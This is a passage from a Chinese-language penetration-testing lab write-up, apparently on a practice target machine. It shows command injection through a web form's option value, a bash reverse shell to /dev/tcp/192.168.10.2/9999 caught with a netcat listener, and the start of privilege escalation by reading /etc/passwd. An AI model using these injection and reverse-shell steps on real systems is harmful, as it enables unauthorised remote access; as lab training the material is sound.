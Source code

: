 这就表示，其实网站是通过接收这里的`value`值去在其机器中执行相关命令，然后返回数据到网站

那么，就可以通过修改这里的`value`值，来尝试进行一个反弹`shell`

尝试把其中一个选项的`value`修改为下面的代码

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
```

然后在`kali`中开启监听9999端口

```shell
nc -lvvp 9999
```

这时候，通过执行对应选项，可以看到反弹成功

![](./pic-4/11.jpg)



# 提权

查看当前靶机内的用户

```shell
ls -l /home
cat /etc/passwd | grep /bin/bash
```

![](./pic-4/12.jpg)
